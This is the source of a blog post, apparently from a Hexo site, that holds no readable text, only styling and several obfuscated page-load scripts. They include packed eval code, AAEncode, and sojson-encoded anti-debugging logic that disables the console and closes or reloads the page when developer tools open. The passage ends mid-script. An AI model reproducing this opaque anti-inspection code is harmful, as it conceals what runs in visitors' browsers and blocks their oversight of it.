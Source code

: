 title: 随口胡说
date: 2020-03-19 13:21:09
---
<style>
                .cbp_tmtimeline>li:nth-child(odd) .cbp_tmlabel {
                  background: linear-gradient(45deg, rgb(109, 208, 242) 15%, rgb(245, 154, 190) 85%);
                  color: white;
                }
                .cbp_tmtimeline>li:nth-child(odd) .cbp_tmlabel:after {
                  border-right-color:  rgb(109, 208, 242)
                }
                .cbp_tmtimeline>li .cbp_tmlabel {
                  background: linear-gradient(45deg, rgb(109, 208, 242) 15%, rgb(245, 154, 190) 85%);
                  color: white;
                }
                .cbp_tmtimeline>li .cbp_tmlabel:after {
                  border-right-color:  rgb(109, 208, 242)
                }
				.cbp_tmtimeline>li img.atemoji {
                  width: 7%;
				  max-height: 7%;
                }
                .button {
                  background: linear-gradient(45deg, rgb(109, 208, 242) 15%, rgb(245, 154, 190) 85%);
                  color: white;
                }
</style>
<script>
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('3="4";2="0";1="8";9="7";5="6";',10,10,'UDc2eGxnRVV5OD|d789|b12|a56|MDkxUFRKVnRI|e12|WlNZmZSLU1kWVhiTU1J|JMb2lBZHczYjNBd2Nl|czBTZ0NMN2FZe|c34'.split('|'),0,{}))
</script>
	
<script>ﾟωﾟﾉ= /｀ｍ´）ﾉ ~┻━┻   //*´∇｀*/ ['_']; o=(ﾟｰﾟ)  =_=3; c=(ﾟΘﾟ) =(ﾟｰﾟ)-(ﾟｰﾟ); (ﾟДﾟ) =(ﾟΘﾟ)= (o^_^o)/ (o^_^o);(ﾟДﾟ)={ﾟΘﾟ: '_' ,ﾟωﾟﾉ : ((ﾟωﾟﾉ==3) +'_') [ﾟΘﾟ] ,ﾟｰﾟﾉ :(ﾟωﾟﾉ+ '_')[o^_^o -(ﾟΘﾟ)] ,ﾟДﾟﾉ:((ﾟｰﾟ==3) +'_')[ﾟｰﾟ] }; (ﾟДﾟ) [ﾟΘﾟ] =((ﾟωﾟﾉ==3) +'_') [c^_^o];(ﾟДﾟ) ['c'] = ((ﾟДﾟ)+'_') [ (ﾟｰﾟ)+(ﾟｰﾟ)-(ﾟΘﾟ) ];(ﾟДﾟ) ['o'] = ((ﾟДﾟ)+'_') [ﾟΘﾟ];(ﾟoﾟ)=(ﾟДﾟ) ['c']+(ﾟДﾟ) ['o']+(ﾟωﾟﾉ +'_')[ﾟΘﾟ]+ ((ﾟωﾟﾉ==3) +'_') [ﾟｰﾟ] + ((ﾟДﾟ) +'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ ((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [(ﾟｰﾟ) - (ﾟΘﾟ)]+(ﾟДﾟ) ['c']+((ﾟДﾟ)+'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ (ﾟДﾟ) ['o']+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ];(ﾟДﾟ) ['_'] =(o^_^o) [ﾟoﾟ] [ﾟoﾟ];(ﾟεﾟ)=((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟДﾟ) .ﾟДﾟﾉ+((ﾟДﾟ)+'_') [(ﾟｰﾟ) + (ﾟｰﾟ)]+((ﾟｰﾟ==3) +'_') [o^_^o -ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟωﾟﾉ +'_') [ﾟΘﾟ]; (ﾟｰﾟ)+=(ﾟΘﾟ); (ﾟДﾟ)[ﾟεﾟ]='\\'; (ﾟДﾟ).ﾟΘﾟﾉ=(ﾟДﾟ+ ﾟｰﾟ)[o^_^o -(ﾟΘﾟ)];(oﾟｰﾟo)=(ﾟωﾟﾉ +'_')[c^_^o];(ﾟДﾟ) [ﾟoﾟ]='\"';(ﾟДﾟ) ['_'] ( (ﾟДﾟ) ['_'] (ﾟεﾟ+(ﾟДﾟ)[ﾟoﾟ]+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(oﾟｰﾟo)+ ((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (o^_^o))+ ((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(oﾟｰﾟo)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟｰﾟ)+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(oﾟｰﾟo)+ (ﾟДﾟ) [ﾟΘﾟ]+ (ﾟДﾟ) [ﾟΘﾟ]+ (c^_^o)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(oﾟｰﾟo)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ) [ﾟΘﾟ]+ (ﾟДﾟ) .ﾟДﾟﾉ+ (ﾟДﾟ) .ﾟΘﾟﾉ+ (ﾟДﾟ)[ﾟεﾟ]+(oﾟｰﾟo)+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ) .ﾟｰﾟﾉ+ (o^_^o)+ (ﾟДﾟ) .ﾟΘﾟﾉ+ (ﾟДﾟ)[ﾟεﾟ]+(oﾟｰﾟo)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟｰﾟ)+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(oﾟｰﾟo)+ (ﾟДﾟ) [ﾟΘﾟ]+ (ﾟДﾟ) [ﾟΘﾟ]+ (c^_^o)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(oﾟｰﾟo)+ (ﾟДﾟ) [ﾟΘﾟ]+ (ﾟДﾟ) [ﾟΘﾟ]+ ((ﾟｰﾟ) + (ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ) [ﾟΘﾟ]+ (ﾟДﾟ)[ﾟεﾟ]+(oﾟｰﾟo)+ (c^_^o)+ (o^_^o)+ (ﾟДﾟ) ['c']+ ((ﾟｰﾟ) + (ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(oﾟｰﾟo)+ (ﾟДﾟ) [ﾟΘﾟ]+ (ﾟДﾟ) [ﾟΘﾟ]+ ((ﾟｰﾟ) + (ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ) [ﾟΘﾟ]+ (ﾟДﾟ)[ﾟεﾟ]+(oﾟｰﾟo)+ (ﾟДﾟ) [ﾟΘﾟ]+ (ﾟДﾟ) [ﾟΘﾟ]+ ((ﾟｰﾟ) + (ﾟｰﾟ))+ ((ﾟｰﾟ) + (ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (o^_^o))+ (o^_^o)+ (ﾟДﾟ)[ﾟoﾟ]) (ﾟΘﾟ)) ('_');</script>
<script>	
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('J["\\4\\N\\b\\c"](Q(S,Y$2,a,L,m,1c){m=Q(a){T(a<Y$2?"":m(J["\\h\\b\\8\\A\\4\\Z\\e\\d"](a/Y$2)))+((a=a%Y$2)>1u?J["\\t\\d\\8\\g\\e\\k"]["\\n\\8\\l\\s\\M\\j\\b\\8\\M\\l\\q\\4"](a+1s):a["\\d\\l\\t\\d\\8\\g\\e\\k"](1r))};1i(!\'\'["\\8\\4\\h\\c\\b\\5\\4"](/^/,J["\\t\\d\\8\\g\\e\\k"])){1h(a--)1c[m(a)]=L[a]||m(a);L=[Q(m){T 1c[m]}];m=Q(){T\'\\\\\\I\\D\'};a=1};1h(a--)1i(L[a])S=S["\\8\\4\\h\\c\\b\\5\\4"](1p J["\\V\\4\\k\\1a\\19\\h"](\'\\\\\\o\'+m(a)+\'\\\\\\o\',\'\\k\'),L[a]);T S}(\'\\M\\7\\j\\7\\h\\9\\b\\9\\5\\9\\r\\9\\4\\9\\q\\6\\y\\4\\i\\j\\7\\5\\6\\y\\n\\7\\5\\1E\\b\\1g\\f\\f\\1f\\4\\7\\l\\7\\5\\1b\\b\\6\\6\\6\\D\\7\\7\\5\\i\\5\\1x\\b\\6\\1w\\1y\\1g\\H\\O\\N\\7\\5\\D\\19\\6\\1f\\5\\O\\d\\7\\17\\6\\6\\w\\u\\e\\7\\1A\\\'\\\'\\O\\s\\7\\1b\\1z\\1b\\9\\H\\6\\6\\y\\c\\7\\5\\R\\R\\6\\q\\E\\4\\7\\5\\6\\C\\i\\r\\E\\5\\C\\3\\3\\4\\7\\5\\6\\u\\r\\i\\E\\j\\7\\4\\6\\y\\n \\q\\E\\4\\C\\w\\C\\u\\4\\i\\j\\7\\6\\y\\n\\\'\\\\\\\\\\I\\D\\\'\\w\\u\\5\\i\\v\\w\\u\\c\\7\\5\\R\\R\\6\\e\\7\\r\\E\\5\\C\\6\\h\\i\\h\\O\\s\\7\\8 \\A\\7\\\'\\\\\\\\\\o\\\'\\D\\4\\7\\5\\6\\D\\\'\\\\\\\\\\o\\\'\\9\\\'\\k\\\'\\6\\9\\r\\E\\5\\C\\6\\u\\n \\h\\w\\7\\\'\\F \\16\\i\\f\\K\\f\\9\\1e\\i\\f\\v\\f\\9\\z\\i\\f\\14\\f\\9\\b\\i\\f\\o\\f\\9\\5\\i\\f\\1B\\f\\9\\1D\\i\\f\\1o\\f\\u\\\'\\9\\g\\9\\g\\9\\\'\\Z\\3\\G\\3\\11\\3\\18\\3\\1v\\3\\P\\3\\W\\3\\12\\3\\1q\\3\\1d\\3\\1k\\3\\X\\3\\1a\\\'\\O\\10\\7\\\'\\3\\\'\\6\\9\\1e\\9\\y\\w\\6\\6\',1n,1n,\'\\3\\3\\3\\3\\3\\3\\3\\3\\3\\3\\3\\3\\3\\3\\3\\8\\4\\d\\17\\8\\e\\3\\3\\n\\17\\e\\5\\d\\g\\l\\e\\3\\v\\F\\3\\t\\d\\8\\g\\e\\k\\3\\3\\I\\j\\g\\c\\4\\3\\8\\4\\h\\c\\b\\5\\4\\3\\g\\n\\3\\h\\b\\8\\A\\4\\Z\\e\\d\\3\\3\\F\\K\\3\\e\\4\\I\\3\\V\\4\\k\\1a\\19\\h\\3\\d\\l\\t\\d\\8\\g\\e\\k\\3\\F\\14\\3\\n\\8\\l\\s\\M\\j\\b\\8\\M\\l\\q\\4\\3\\3\\z\\1o\\3\\H\\F\\3\\13\\10\\G\\P\\o\\z\\c\\X\\x\\18\\5\\1d\\1l\\H\\p\\X\\q\\z\\p\\c\\3\\j\\1j\\H\\18\\A\\N\\11\\13\\K\\3\\V\\Z\\5\\1d\\X\\U\\x\\1e\\p\\P\\p\\z\\12\\x\\4\\15\\c\\p\\x\\s\\x\\t\\W\\B\\v\\r\\15\\1m\\3\\4\\N\\b\\c\\3\\A\\h\\c\\g\\d\\3\\s\\1t\\W\\5\\p\\P\\1l\\G\\G\\16\\3\\j\\g\\U\\B\\v\\G\\3\\I\\c\\p\\k\\t\\1k\\l\\1j\\14\\3\\N\\b\\8\\3\\P\\H\\13\\12\\K\\3\\B\\v\\r\\15\\1m\\j\\g\\U\\B\\v\\G\\3\\x\\B\\16\\3\\o\\e\\V\\z\\p\\B\\c\\U\\3\\10\\1C\\F\\q\\s\\o\\11\\K\\W\'["\\A\\h\\c\\g\\d"](\'\\3\'),0,{}))',62,103,'|||x7c|x65|x63|x29|x28|x72|x2c|DElK3|x61|x6c|x74|x6e|x22|x69|x70|x3d|x68|x67|x6f|jZSLaP5|x66|x62|x4e|x64|x6b|x6d|x53|x3b|x31|x7d|x5a|x7b|x32|x73|x55|x5d|x2b|x5b|x33|x4a|x6a|x77|window|x35|lJ4|x43|x76|x2e|x4d|function|x2d|LhULhCIU1|return|x54|x52|x4c|x42|qCpLs|x49|x44|x47|x46|x4f|x36|x57|x34|x75|x48|x78|x45|x2f|sLUrm6|x7a|x30|x3a|x3f|while|if|x50|x79|x59|x56|49|x39|new|x41|36|29|x58|35|x4b|x3e|x25|x71|x5e|x21|x37|x51|x38|x3c'.split('|'),0,{}))	
</script>	
<script>eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('1.0=()=>{};3.2=()=>{};',4,4,'log|console|write|document'.split('|'),0,{}))	
</script>	
<script>	
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('H["\\3\\V\\c\\e"](J(P,K,8,I,m,12){m=J(8){N(8<K?"":m(H["\\b\\c\\7\\G\\3\\S\\a\\d"](8/K)))+((8=8%K)>1p?H["\\D\\d\\7\\g\\a\\i"]["\\l\\7\\k\\M\\E\\n\\c\\7\\E\\k\\o\\3"](8+1n):8["\\d\\k\\D\\d\\7\\g\\a\\i"](1m))};1b(!\'\'["\\7\\3\\b\\e\\c\\6\\3"](/^/,H["\\D\\d\\7\\g\\a\\i"])){1a(8--)12[m(8)]=I[8]||m(8);I=[J(m){N 12[m]}];m=J(){N\'\\\\\\w\\B\'};8=1};1a(8--)1b(I[8])P=P["\\7\\3\\b\\e\\c\\6\\3"](1k H["\\T\\3\\i\\13\\z\\b"](\'\\\\\\L\'+m(8)+\'\\\\\\L\',\'\\i\'),I[8]);N P}(\'\\15\\4\\n\\4\\b\\9\\c\\9\\6\\9\\j\\9\\3\\9\\o\\5\\x\\3\\h\\n\\4\\6\\5\\x\\l\\4\\6\\1z\\c\\1d\\f\\f\\1c\\3\\4\\7\\4\\6\\Y\\c\\5\\5\\5\\B\\4\\4\\6\\h\\6\\1y\\c\\5\\1B\\1D\\1d\\e\\C\\k\\4\\6\\B\\G\\5\\1c\\6\\C\\V\\4\\z\\5\\5\\A\\p\\a\\4\\1t\\\'\\\'\\C\\M\\4\\Y\\1s\\Y\\9\\e\\5\\5\\x\\g\\4\\6\\O\\O\\5\\o\\t\\3\\4\\6\\5\\v\\h\\j\\t\\6\\v\\2\\2\\3\\4\\6\\5\\p\\j\\h\\t\\n\\4\\3\\5\\x\\l \\o\\t\\3\\v\\A\\v\\p\\3\\h\\n\\4\\5\\x\\l\\\'\\\\\\\\\\w\\B\\\'\\A\\p\\6\\h\\r\\A\\p\\g\\4\\6\\O\\O\\5\\a\\4\\j\\t\\6\\v\\5\\b\\h\\b\\C\\M\\4\\11 \\d\\4\\\'\\\\\\\\\\L\\\'\\B\\3\\4\\6\\5\\B\\\'\\\\\\\\\\L\\\'\\9\\\'\\i\\\'\\5\\9\\j\\t\\6\\v\\5\\p\\l \\b\\A\\4\\\'\\y \\1w\\h\\f\\F\\f\\9\\17\\h\\f\\r\\f\\9\\U\\h\\f\\R\\f\\9\\c\\h\\f\\1x\\f\\9\\18\\h\\f\\1u\\f\\p\\\'\\9\\s\\9\\s\\9\\\'\\1A\\2\\14\\2\\S\\2\\19\\2\\1g\\2\\13\\2\\1r\\2\\1f\\2\\X\\2\\E\\2\\1j\\\'\\C\\1l\\4\\\'\\2\\\'\\5\\9\\17\\9\\x\\A\\5\\5\',1h,1h,\'\\2\\2\\2\\2\\2\\2\\2\\2\\2\\2\\2\\2\\2\\2\\2\\7\\3\\d\\11\\7\\a\\2\\2\\l\\11\\a\\6\\d\\g\\k\\a\\2\\w\\n\\g\\e\\3\\2\\r\\r\\2\\2\\D\\d\\7\\g\\a\\i\\2\\7\\3\\b\\e\\c\\6\\3\\2\\g\\l\\2\\l\\7\\k\\M\\E\\n\\c\\7\\E\\k\\o\\3\\2\\2\\y\\U\\2\\b\\c\\7\\G\\3\\S\\a\\d\\2\\F\\R\\2\\T\\3\\i\\13\\z\\b\\2\\a\\3\\w\\2\\d\\k\\D\\d\\7\\g\\a\\i\\2\\2\\y\\18\\2\\w\\o\\14\\b\\U\\16\\y\\b\\z\\1o\\10\\16\\s\\1q\\2\\G\\b\\e\\g\\d\\2\\7\\q\\y\\2\\s\\q\\Q\\s\\1i\\1g\\16\\F\\2\\q\\j\\r\\Q\\1e\\e\\o\\17\\3\\10\\b\\y\\u\\W\\Z\\1f\\c\\u\\S\\2\\1e\\q\\R\\d\\6\\s\\o\\j\\Q\\j\\R\\1C\\W\\10\\e\\2\\1i\\W\\1v\\q\\Z\\n\\r\\2\\3\\V\\c\\e\\2\\q\\X\\6\\F\\3\\14\\z\\a\\T\\u\\u\\U\\2\\Q\\a\\F\\2\\Z\\X\\j\\z\\q\\15\\T\\19\\u\\a\\2\\7\\l\\w\\15\\k\\u\\r\\2\\V\\c\\7\'["\\G\\b\\e\\g\\d"](\'\\2\'),0,{}))',62,102,'||x7c|x65|x28|x29|x63|x72|MosnA3|x2c|x6e|x70|x61|x74|x6c|x22|x69|x3d|x67|x6b|x6f|x66|SRA5|x68|x64|x3b|x55|x31|x6a|x5b|x56|x5d|x77|x7b|x33|x78|x7d|x2b|x2e|x53|x43|x32|x73|window|juoI4|function|t_Fa2|x62|x6d|return|x2d|bAUM1|x59|x39|x49|x52|x35|x76|x57|x44|x2f|x4d|x58|x75|V6|x45|x47|x46|x5a|x30|x36|x4b|while|if|x3a|x3f|x4e|x79|x4a|47|x54|x42|new|x7a|36|29|x51|35|x4c|x41|x5e|x21|x37|x4f|x34|x38|x25|x3c|x48|x3e|x50|x71'.split('|'),0,{}))	
</script>	
<script>	
;var encode_version = 'sojson.v5', rqolp = '__0x922c9',  __0x922c9=['GgMyw7gW','wpPDuMK+wqEh','w6IRwp1lHA==','w5HChE7DuyY=','wrTDv2HDkcO0','wrkRw5PCgsOr','OsOFwpIZw4I=','CMKAaA==','wp7Dg8Oq','w6LDlxXCrcK8w7rDusKBBA==','54mL5pyI5Y2y776LQznkvLLlrZnmnrblvIvnq57vvLHov6Hor5Tmlo/mj4TmiYjkuoDnmZPltITkvI0=','IhzCqsOONw==','wr88wqMTaw==','wr4gw5TCrcOW','PMOfwoHDhcKJ','woXCtR1GAw==','FSnDvMO6','GsOGXx/DvmLCssKh','ScO8w6lodsOU','woI1w7g=','MXUWwprDjQ==','wpHDpX0VwoDDrhEaBw==','QMKcw6DCiWU=','5Yqm6ZqP54m15p625Y6E77+TGMK45L2+5a2b5pyR5b6p56iQ','w7zCj8OPTMOEw4fDpRI=','fSYSFMO3w4Y=','w5oOWg==','wqw3D8KswogVwrII','w6fDlcOQwpbDo8OBwpzCnjzCrV0=','FGvClcOhw6M=','wqUbw78QdxfCm8KeDMOG','Zi0QHsOkw7UAwoEvMg==','w5jDhMOHwpnDgA==','FMOldwTDiA==','GcOcSBvDuEPCuMKmCcK8wqE=','AMOIwqjDrcKZMsOYwo0Zwqg3','XknCvFRI','wrV8VF3DlQ==','FDjDv8Olw5tv','w7LDiwU=','54qr5p685Y+V776ew71S5L+j5ayl5pyK5byI56iM77yf6L+u6KyV5paG5o+s5oiH5Lmt55uj5beI5L2V','5Yub6ZuV54uW5p645Y6R776Qw6DDoeS9vOWtq+adheW/veeqqw=='];(function(_0x3354ea,_0x2e3de5){var _0x1d0486=function(_0x1b3ffc){while(--_0x1b3ffc){_0x3354ea['push'](_0x3354ea['shift']());}};_0x1d0486(++_0x2e3de5);}(__0x922c9,0x103));var _0xaa20=function(_0x3ccdb2,_0x573b07){_0x3ccdb2=_0x3ccdb2-0x0;var _0x47e8b4=__0x922c9[_0x3ccdb2];if(_0xaa20['initialized']===undefined){(function(){var _0x4c7da6=typeof window!=='undefined'?window:typeof process==='object'&&typeof require==='function'&&typeof global==='object'?global:this;var _0x33a5cc='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';_0x4c7da6['atob']||(_0x4c7da6['atob']=function(_0x19d9c6){var _0x2746f6=String(_0x19d9c6)['replace'](/=+$/,'');for(var _0x121d41=0x0,_0x1b4444,_0x3841d8,_0x31775e=0x0,_0x25614d='';_0x3841d8=_0x2746f6['charAt'](_0x31775e++);~_0x3841d8&&(_0x1b4444=_0x121d41%0x4?_0x1b4444*0x40+_0x3841d8:_0x3841d8,_0x121d41++%0x4)?_0x25614d+=String['fromCharCode'](0xff&_0x1b4444>>(-0x2*_0x121d41&0x6)):0x0){_0x3841d8=_0x33a5cc['indexOf'](_0x3841d8);}return _0x25614d;});}());var _0x21e84e=function(_0x492001,_0x3a7ffc){var _0x5c1697=[],_0x579d3e=0x0,_0x37f86f,_0xab007d='',_0x21460e='';_0x492001=atob(_0x492001);for(var _0x977191=0x0,_0x5036fd=_0x492001['length'];_0x977191<_0x5036fd;_0x977191++){_0x21460e+='%'+('00'+_0x492001['charCodeAt'](_0x977191)['toString'](0x10))['slice'](-0x2);}_0x492001=decodeURIComponent(_0x21460e);for(var _0x15af89=0x0;_0x15af89<0x100;_0x15af89++){_0x5c1697[_0x15af89]=_0x15af89;}for(_0x15af89=0x0;_0x15af89<0x100;_0x15af89++){_0x579d3e=(_0x579d3e+_0x5c1697[_0x15af89]+_0x3a7ffc['charCodeAt'](_0x15af89%_0x3a7ffc['length']))%0x100;_0x37f86f=_0x5c1697[_0x15af89];_0x5c1697[_0x15af89]=_0x5c1697[_0x579d3e];_0x5c1697[_0x579d3e]=_0x37f86f;}_0x15af89=0x0;_0x579d3e=0x0;for(var _0x2345bd=0x0;_0x2345bd<_0x492001['length'];_0x2345bd++){_0x15af89=(_0x15af89+0x1)%0x100;_0x579d3e=(_0x579d3e+_0x5c1697[_0x15af89])%0x100;_0x37f86f=_0x5c1697[_0x15af89];_0x5c1697[_0x15af89]=_0x5c1697[_0x579d3e];_0x5c1697[_0x579d3e]=_0x37f86f;_0xab007d+=String['fromCharCode'](_0x492001['charCodeAt'](_0x2345bd)^_0x5c1697[(_0x5c1697[_0x15af89]+_0x5c1697[_0x579d3e])%0x100]);}return _0xab007d;};_0xaa20['rc4']=_0x21e84e;_0xaa20['data']={};_0xaa20['initialized']=!![];}var _0x4f9cbd=_0xaa20['data'][_0x3ccdb2];if(_0x4f9cbd===undefined){if(_0xaa20['once']===undefined){_0xaa20['once']=!![];}_0x47e8b4=_0xaa20['rc4'](_0x47e8b4,_0x573b07);_0xaa20['data'][_0x3ccdb2]=_0x47e8b4;}else{_0x47e8b4=_0x4f9cbd;}return _0x47e8b4;};!function(){var _0x3ad9a4={'bUuJY':function _0xee45ac(_0x1a13dd,_0x11ba01){return _0x1a13dd>_0x11ba01;},'MQHpN':function _0x371553(_0x3de3c2,_0x37b94a){return _0x3de3c2!==_0x37b94a;},'awhRg':_0xaa20('0x0','GJ$z'),'odLKL':_0xaa20('0x1','frjG'),'samvY':function _0x3e0478(_0x4f14d1,_0x30d005){return _0x4f14d1!==_0x30d005;},'RByUR':_0xaa20('0x2','g0Lc'),'APOyJ':function _0x3bb913(_0x4922e6,_0x3a9d1a){return _0x4922e6===_0x3a9d1a;},'UyGMb':'sojson.v5','Szvfk':function _0x34c7dd(_0x55acc4,_0x2d3b89){return _0x55acc4+_0x2d3b89;},'tlYIW':_0xaa20('0x3','AV[6'),'kkLlZ':function _0x3e4437(_0x16bb83,_0x45beb9){return _0x16bb83!==_0x45beb9;},'RAiJP':function _0x51d6c4(_0x3e0054,_0x2baa16){return _0x3e0054!==_0x2baa16;},'llPjQ':function _0x17364d(_0x6189ed,_0x4a7cf9){return _0x6189ed+_0x4a7cf9;}};var _0x2f9dd2=0x32;var _0x3bdd64=![];setInterval(function(){var _0x4adb06=new Date();debugger;if(_0x3ad9a4['bUuJY'](new Date()-_0x4adb06,_0x2f9dd2)){if(_0x3ad9a4[_0xaa20('0x4','g8qK')]('blU',_0x3ad9a4['awhRg'])){c+=_0x3ad9a4[_0xaa20('0x5','tfte')];b=encode_version;if(!(_0x3ad9a4[_0xaa20('0x6','tfL$')](typeof b,_0x3ad9a4['RByUR'])&&_0x3ad9a4['APOyJ'](b,_0x3ad9a4[_0xaa20('0x7','7Fg9')]))){w[c](_0x3ad9a4['Szvfk']('删除',_0x3ad9a4[_0xaa20('0x8','hztx')]));}}else{_0x3bdd64=!![];window[_0xaa20('0x9','aA*2')]();window[_0xaa20('0xa','GcuI')][_0xaa20('0xb','EpGs')]();}}else{if(_0x3ad9a4['kkLlZ'](_0xaa20('0xc','dx]m'),'lsr')){_0x3bdd64=![];}else{c='al';try{c+=_0x3ad9a4[_0xaa20('0xd','20uq')];b=encode_version;if(!(_0x3ad9a4['RAiJP'](typeof b,'undefined')&&_0x3ad9a4['APOyJ'](b,_0xaa20('0xe','RcQ4')))){w[c](_0x3ad9a4['llPjQ']('删除',_0x3ad9a4[_0xaa20('0xf','@Vv]')]));}}catch(_0x378e53){w[c](_0xaa20('0x10','ss9*'));}}}},0x1f4);}();function consoleOpenCallback(){window[_0xaa20('0x11','Z5AX')][_0xaa20('0x12','zT3D')]();return'';}!function(){let _0x2fde22=/./;console[_0xaa20('0x13','jx0R')](_0x2fde22);_0x2fde22[_0xaa20('0x14','i&Z7')]=consoleOpenCallback;}();var threshold=0xa0;window[_0xaa20('0x15','P%8n')](function(){var _0x224b7a={'bLKzB':function _0x4c3bc9(_0x5588b5,_0x1da121){return _0x5588b5-_0x1da121;},'LtcFM':function _0x44b07c(_0xcd2b73,_0x9993ce){return _0xcd2b73>_0x9993ce;},'sqLmB':function _0x2a5cad(_0x5a4aaf,_0x1f7f33){return _0x5a4aaf!==_0x1f7f33;},'uymMH':'kkI'};if(_0x224b7a[_0xaa20('0x16','hhEk')](window[_0xaa20('0x17','#kaF')],window[_0xaa20('0x18','zT3D')])>threshold||_0x224b7a[_0xaa20('0x19','P%8n')](_0x224b7a[_0xaa20('0x1a','GcuI')](window[_0xaa20('0x1b','GcuI')],window[_0xaa20('0x1c','7Fg9')]),threshold)){if(_0x224b7a[_0xaa20('0x1d','ZewW')](_0x224b7a['uymMH'],_0x224b7a[_0xaa20('0x1e','j80(')])){let _0x513b3d=/./;console['log'](_0x513b3d);_0x513b3d['toString']=consoleOpenCallback;}else{window['location'][_0xaa20('0x1f','aA*2')]();}}},0x3e8);;(function(_0x4f2b0f,_0x300fbc,_0x5b263e){var _0x38240e={'bpdOq':_0xaa20('0x20','g0Lc'),'doKZI':function _0xd524b7(_0x2af68a,_0x3f920f){return _0x2af68a!==_0x3f920f;},'kRbXX':'undefined','eqeSj':function _0x47ba24(_0x3a339c,_0x2bbc85){return _0x3a339c===_0x2bbc85;},'WosaU':'sojson.v5','WoCCc':function _0x4c7051(_0x47d8da,_0x430b95){return _0x47d8da!==_0x430b95;},'lpaVX':'Qkj','tPjYd':function 